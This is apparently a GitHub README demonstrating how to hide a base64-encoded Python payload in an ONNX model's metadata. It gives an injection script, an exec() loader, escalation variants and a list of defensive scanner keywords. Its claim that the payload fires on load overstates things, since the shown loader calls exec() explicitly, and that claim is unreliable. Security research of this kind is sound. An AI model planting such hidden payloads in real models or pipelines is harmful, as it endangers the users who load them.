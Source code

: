 # ONNX Metadata Attack Vector Analysis
Proof-of-concept ONNX exploit demonstrating how base64-obfuscated Python payloads embedded in model metadata can trigger file cloning and resource exhaustion — simulating a stealthy DDoS attack vector in ML pipelines.

# 📦 What is ONNX?
ONNX (Open Neural Network Exchange) is a widely adopted format that allows interoperability between different machine learning frameworks. ONNX models are composed of computation graphs, weights, and optional metadata fields (metadata_props), which can be used to store additional information like author, version, or tags.

However, these metadata fields are unregulated and can be misused to embed arbitrary, obfuscated Python code — turning a legitimate model into a vector for resource-based attacks.

# 🚨 Exploit Overview: Metadata-Based Payload for DDoS via File Cloning
In this proof-of-concept, a Python payload is injected into an ONNX model’s metadata_props. The payload is Base64-encoded and embedded under the "run" key.

# 💣 Behavior Upon Execution:
When executed (via exec()), the payload:

1. Creates 10 copies of the infected model using shutil.copyfile().
2. Writes files named copy_0.onnx to copy_9.onnx.
3. Repeats the I/O operation, causing disk consumption and CPU load.
4. Although harmless in appearance, when done repeatedly or at scale, this becomes a Denial of Service (DoS) vector.

# 🔬 Attack Flow
1. Payload Injection into Model
   
<pre> <code>```python # inject_payload.py import onnx from onnx import helper import base64 # Load existing ONNX model model = onnx.load("model_base.onnx") # Define raw Python payload (to create 10 copies of the model) raw_payload = ''' import shutil for i in range(10): shutil.copyfile("infected_model.onnx", f"copy_{i}.onnx") ''' # Encode payload in Base64 and inject into metadata encoded_payload = base64.b64encode(raw_payload.encode()).decode() model.metadata_props.append(helper.StringStringEntryProto(key="run", value=encoded_payload)) # Save the infected model onnx.save(model, "infected_model.onnx") print("[+] Payload injected successfully.") ```</code> </pre>

2. Payload Triggered on Load
   
<pre> <code>```python # simulate_load.py import onnx import base64 # Load the infected ONNX model model = onnx.load("infected_model.onnx") # Execute the payload from metadata for prop in model.metadata_props: if prop.key == "run": exec(base64.b64decode(prop.value)) ```</code> </pre>

# 🧪 Test Results
Upon loading:
  - Ten ONNX file clones are written to disk.
  - No warnings or alerts are triggered by onnx.load().
  - Resource usage spikes momentarily (disk I/O and CPU).
When deployed at scale (e.g., multiple users loading the model in parallel), this results in:
  - Disk exhaustion
  - Performance degradation
  - Potential system instability

<img width="626" height="396" alt="image" src="https://github.com/user-attachments/assets/21fab848-f54e-404b-babc-0585d88a4072" />


# ☠️ Real-World Impact
# 🔄 Distributed Denial of Service (DDoS)
If the model is distributed via public platforms (e.g., Hugging Face, GitHub) and integrated into automated pipelines, this small-scale clone script can amplify across many machines, leading to a distributed attack.

# 💡 Variants
1. Cloning thousands of files recursively.
2. Creating infinite loops or massive memory buffers.
3. Recursive payload execution (multi-layered propagation).

# 🛡️ Mitigation & Defense Strategies
1. ❌ Never Execute Model Metadata
Avoid exec()/eval() on metadata fields at all costs. Treat metadata as non-executable strings.

# 2. 🔍 Metadata Auditing
Implement scanners to detect:
- Suspicious keywords: exec, import, os, shutil, base64, etc.
- Base64 strings with decode patterns.
- Abnormally large metadata fields.

# 3. 🧪 Model Sandbox Execution
Use containerized environments (e.g., Docker) with strict resource limits for testing model behavior.

# 4. 🔐 Use Trusted Repositories
Only use ONNX models from official or verified sources. Treat user-uploaded models as potentially malicious.

# 5. 🧰 Secure Model Pipeline
Add:
  - Metadata sanitization tools.
  - Digital signature validation.
  - Structural validation before inference deployment.

# ⚠️ Disclaimer
This repository is intended for educational and research purposes only.
The author disclaims all liability for any misuse of the code or technique.
Do not use this method in real-world environments or production systems.






      
